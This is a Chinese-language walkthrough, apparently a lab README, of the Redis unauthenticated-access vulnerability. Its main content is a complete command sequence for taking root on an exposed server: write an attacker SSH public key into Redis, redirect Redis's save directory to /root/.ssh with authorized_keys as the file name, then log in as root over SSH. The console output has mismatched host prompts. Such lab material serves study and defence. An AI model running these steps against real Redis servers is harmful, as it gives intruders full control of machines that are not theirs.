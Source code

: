 Redis 未授权访问漏洞

如果将 Redis 绑定在 0.0.0.0:6379，会将Redis服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问Redis以及读取Redis的数据。
攻击者在未授权访问Redis的情况下可以利用Redis的相关方法，如果运行 redis 的用户是 root 用户，攻击者可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以直接登录目标服务器。

### 利用步骤

1. 在攻击方生成一对 ssh key (如果已经生成过则可跳过此步骤)

 ```
  $ ssh-keygen -t rsa
 ```
 
 默认情况下，生成后在用户的家目录下的 .ssh 目录下
 
2. 将生成的公钥的值写入目标服务器

 ```
 $ (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /tmp/foo.txt
 $ cat /tmp/foo.txt | redis-cli -h 172.17.0.2 -p 6379 -x set crackit
 ```
 
 > 加上 `\n\n` 是为了不破坏 ssh public key
 > 
 > crackit 是设置的 key，可随意指定

3. 连接目标

 ```
 $ redis-cli -h 172.17.0.2 -p 6379
192.168.1.100:6379> config set dir /root/.ssh/
OK
192.168.1.100:6379> config get dir
1) "dir"
2) "/root/.ssh"
172.17.0.2:6379> config set dbfilename "authorized_keys"
OK
172.17.0.2:6379> save
OK
 ```
 
 将目录设置为 /root/.ssh/ 目录后，再将备份文件名设置为 `authorized_keys`，通过 save 指令即可写入文件。

4. 通过 ssh 连接目标

 ```
 $ ssh root@172.17.0.2 -i ~/.ssh/id_rsa
 ```
 > 默认会使用 `id_rsa` 如果改过文件名则可以用 -i 参数来指定。